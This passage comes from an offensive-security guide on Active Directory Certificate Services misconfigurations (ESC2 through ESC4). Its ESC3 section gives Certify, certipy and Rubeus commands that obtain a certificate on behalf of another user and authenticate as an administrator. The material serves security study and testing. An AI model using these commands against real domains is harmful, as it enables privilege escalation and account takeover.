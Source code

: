 1. Enrollment rights are granted to low-privileged users by the Enterprise CA.
2. The requirement for manager approval is disabled.
3. The need for authorized signatures is omitted.
4. An overly permissive security descriptor on the certificate template grants certificate enrollment rights to low-privileged users.
5. **The certificate template is defined to include the Any Purpose EKU or no EKU.**

The Any Purpose EKU permits a certificate to be obtained by an attacker for any purpose, including client authentication, server authentication, code signing, etc. The same technique used for ESC3 can be employed to exploit this scenario.
#### Misconfigured Enrolment Agent Templates - ESC3
This scenario is like the first and second one but abusing a different EKU (Certificate Request Agent) and 2 different templates (therefore it has 2 sets of requirements):

1. The **Certificate Request Agent EKU** (OID 1.3.6.1.4.1.311.20.2.1), known as Enrollment Agent in Microsoft documentation, allows a principal to enroll for a certificate on behalf of another user.
2. The **“enrollment agent”** enrolls in such a template and uses the resulting certificate to co-sign a CSR on behalf of the other user. It then sends the co-signed CSR to the CA, enrolling in a template that permits “enroll on behalf of”, and the CA responds with a certificate belong to the “other” user.

Certify or Certipy can be used to abuse this scenario:
```
# Request an enrollment agent certificate
Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:Vuln-EnrollmentAgent
certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local' -ca 'corp-CA' -template 'templateName'

# Enrollment agent certificate to issue a certificate request on behalf of another user to a template that allow for domain authentication
Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:User /onbehalfof:CORP\itadmin /enrollment:enrollmentcert.pfx /enrollcertpwd:asdf
certipy req -username john@corp.local -password Pass0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'

# Use Rubeus with the certificate to authenticate as the other user
Rubeu.exe asktgt /user:CORP\itadmin /certificate:itadminenrollment.pfx /password:asdf
```
#### Vulnerable Certificate Template Access Control - ESC4
The security descriptor on certificate templates defines the permissions specific AD principals possess concerning the template.

**ESC4 is when a user has write privileges over a certificate template.** 

Notable permissions applicable to certificate templates include:
- Owner
- FullControl
- WriteOwner
- WriteDacl
- WriteProperty

This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.
